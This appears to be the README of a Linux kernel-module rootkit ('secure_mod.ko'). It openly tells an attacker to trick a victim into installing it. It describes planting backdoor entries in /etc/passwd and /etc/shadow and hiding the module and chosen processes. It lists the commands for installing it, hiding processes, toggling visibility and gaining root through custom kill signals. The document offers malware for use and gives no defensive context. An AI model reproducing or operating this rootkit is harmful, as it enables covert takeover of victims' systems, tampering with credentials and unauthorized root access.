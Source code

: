#Linux Rootkit
###Attacker should first trap victim into installing the rootkit by "sudo insmod secure_mod.ko". After that, the rootkit will add a backdoor for attacker by insert a line in both /etc/passwd and /etc/shadow. Then the attacker could login to victim's linux machine and get root priviledge to do some evil things. The rootkit will also hide itself and can hide a process by its pid.
#Usage
- <h3>Install</h3>
```
sudo insmod secure_mod.ko
```

- <h3>Hide/Unhide a Process</h3>
```
kill -62 pid
```

- <h3>Hide/Unhide rootkit</h3>
```
kill -63 0
```
- <h3>Get Root Priviledge</h3>
```
kill -64 0
```
- <h3>Uninstall</h3>
<h4>First unhide the rootkit by signal 63 then remove it by
```
sudo rmmod secure_mod
```
